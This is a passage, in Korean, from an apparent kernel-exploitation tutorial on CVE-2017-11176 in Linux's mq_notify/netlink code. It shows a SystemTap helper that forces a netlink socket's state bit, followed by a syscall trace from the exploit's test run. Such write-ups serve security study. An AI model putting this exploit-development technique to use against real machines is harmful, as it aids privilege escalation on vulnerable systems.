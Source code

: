 내장된 stap 함수인 **dump\_netlink\_sock()**이 성공적으로 *netlink\_attachskb()* 에 진입하기 전에 호출되었다. 볼 수 있듯이 *state* 의 첫 비트는 설정되어 있지 않고, *sk\_rmem\_alloc* 이 *sk\_rcvbuf* 보다 작다. 따라서 검사를 통과하지 못한다.

*nlk->state* 를 *netlink\_attachskb()* 호출 전에 수정해보자:

```c
    function dump_netlink_sock:long (arg_sock:long)
    %{
      struct sock *sk = (void*) STAP_ARG_arg_sock;
      struct netlink_sock *nlk = (void*) sk;

      _stp_printf("-={ dump_netlink_sock: %p }=-\n", nlk);
      _stp_printf("- sk = %p\n", sk);
      _stp_printf("- sk->sk_rmem_alloc = %d\n", sk->sk_rmem_alloc);
      _stp_printf("- sk->sk_rcvbuf = %d\n", sk->sk_rcvbuf);
      _stp_printf("- sk->sk_refcnt = %d\n", sk->sk_refcnt);

      _stp_printf("- (before) nlk->state = %x\n", (nlk->state & 0x1));
      nlk->state |= 1;                                                  // <-----
      _stp_printf("- (after) nlk->state = %x\n", (nlk->state & 0x1));

      _stp_printf("-={ dump_netlink_sock: END}=-\n");
    %}
```

그리고 실행해보자:

```plaintext
-={ CVE-2017-11176 Exploit }=-
netlink socket created = 3

<<< HIT CTRL-C HERE >>>

^Cmake: *** [check] Interrupt


(20002-20002) [SYSCALL] ==>> mq_notify (-1, 0x7ffc48bed2c0)
(20002-20002) [uland] ==>> copy_from_user ()
(20002-20002) [skb] ==>> alloc_skb (priority=0xd0 size=0x20)
(20002-20002) [uland] ==>> copy_from_user ()
(20002-20002) [skb] ==>> skb_put (skb=0xffff88003d3a6080 len=0x20)
(20002-20002) [skb] <<== skb_put = ffff88002e142600
(20002-20002) [vfs] ==>> fget (fd=0x3)
(20002-20002) [vfs] <<== fget = ffff88003ddd8380
(20002-20002) [netlink] ==>> netlink_getsockbyfilp (filp=0xffff88003ddd8380)
(20002-20002) [netlink] <<== netlink_getsockbyfilp = ffff88003dde0400
(20002-20002) [netlink] ==>> netlink_attachskb (sk=0xffff88003dde0400 skb=0xffff88003d3a6080 timeo=0xffff88002e233f40 ssk=0x0)

-={ dump_netlink_sock: 0xffff88003dde0400 }=-
- sk = 0xffff88003dde0400
- sk->sk_rmem_alloc = 0
- sk->sk_rcvbuf = 133120
- sk->sk_refcnt = 2
- (before) nlk->state = 0
- (after)  nlk->state = 1
-={ dump_netlink_sock: END}=-

<<< HIT CTRL-C HERE >>>

(20002-20002) [netlink] <<== netlink_attachskb = fffffffffffffe00   // <-----
(20002-20002) [SYSCALL] <<== mq_notify= -512
```
